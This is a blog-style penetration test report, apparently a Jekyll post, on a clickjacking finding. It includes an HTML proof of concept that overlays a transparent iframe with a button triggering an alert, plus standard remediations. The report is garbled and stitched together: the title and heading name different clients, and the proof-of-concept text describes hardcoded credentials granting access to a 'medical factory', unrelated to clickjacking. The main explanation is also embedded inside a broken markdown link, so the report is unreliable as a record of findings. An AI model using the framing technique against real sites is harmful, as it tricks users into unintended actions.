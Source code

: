 ```yaml
---
layout: post
title: Clothing Brand Web PT
tags:
  - web
  - real-activity
hero: https://images.unsplash.com/photo-1462206092226-f46025ffe607?ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D&auto=format&fit=crop&w=1474&q=80
overlay: blue
---
```


Please note that for this proof of concept, while images and step-by-step reproduction tips are fundamental for evidentiary purposes, they will not be supplied. Furthermore, in adherence to our commitment to privacy and compliance with non-disclosure agreements, all URLs and functionalities within this assessment have been anonymized. {: .lead} <!–-break-–>

# Engineering Company

## Type of activity and objectives
The objective of this engagement was to conduct an external penetration assessment for the organization. The aim was to identify potential vulnerabilities that might be exploited by external sources, with the ultimate goal of preventing unauthorized access and compromise.
## Scope of evaluation
The evaluation was focused on the outside surface of the organization. This scope encompassed assessing the security and potential vulnerabilities within this external surface.
## Executive Summary
The conducted assessment of the target web application revealed a medium security vulnerability known as "Clickjacking." Clickjacking is a type of attack where an attacker tricks a user into clicking on a maliciously embedded element while making it appear as if they are interacting with a legitimate part of the website. This can lead to unintended actions being performed by the user without their knowledge or consent.

## Finding Summary
- Clickjacking
## Risk Impact Graph with CVSS Scores

![](https://raw.githubusercontent.com/blitz0p3rations/blitz0p3rations.github.io/master/uploads/id3.png)
## Vulnerability Types Distribution

![](https://raw.githubusercontent.com/blitz0p3rations/blitz0p3rations.github.io/master/uploads/id4.png)

## Attack storyline and findings
### Clickjacking
- CVSS Vector: None
#### Proof of Concept (PoC) 
The Proof of Concept (PoC) demonstrates the identification of a security issue in the "main.js" file of the application. By analyzing this file, sensitive credentials were discovered, which were then exploited to gain unauthorized access to the medical factory.
#### Remediations
- Never expose hardcoded secrets](<A missing HTTP header (X-Frame-Options) in the target web application has left customers vulnerable to clickjacking. Clickjacking is an attack that occurs when an attacker uses a transparent iframe in a window to trick a user into clicking on an actionable item, such as a button or link, to another server in which they have an identical webpage. The attacker essentially hijacks the user activity intended for the original server and sends it to the other server. This is an attack on both the user and the server.

Here's a simple Proof of Concept (PoC) for the Clickjacking attack:

1. Create an HTML page that contains your legitimate content. Let's call it "legit.html":
`
%3C!DOCTYPE html%3E
<html>
<head>
    <title>Legitimate Page</title>
</head>
<body>
    <h1>Welcome to Our Website</h1>
    <p>This is some important content.</p>
</body>
</html>
`

1. Create another HTML page that contains an invisible iframe that overlays the legitimate content. Let's call it "malicious.html":
`
<!DOCTYPE html>
<html>
<head>
    <title>Malicious Page</title>
    <style>
        iframe {
            position: absolute;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            opacity: 0;
        }
    </style>
</head>
<body>
    <iframe src="legit.html"></iframe>
    <h1>Click Me!</h1>
    <button onclick="performAttack()">Click Here</button>

    <script>
        function performAttack() {
            alert("Clickjacking Attack Successful!");
        }
    </script>
</body>
</html>
`

In this PoC, the "malicious.html" page contains an invisible iframe that loads the "legit.html" page. The attacker overlays a button on top of the iframe that seems harmless to the user. When the user clicks the button, they are clicking on the button in the overlaying "malicious.html" page, triggering the "performAttack()" function that shows an alert.


#### Remediations
- X-Frame-Options Header: Set the X-Frame-Options HTTP response header to prevent your website from being displayed within a frame or iframe on another site.

- Content Security Policy (CSP): Implement a CSP that restricts the domains that can embed your site's content. This helps prevent unauthorized embedding.

- Frame-Busting Scripts: Include frame-busting scripts in your web pages to break out of frames if your site is being framed by malicious sites.>)
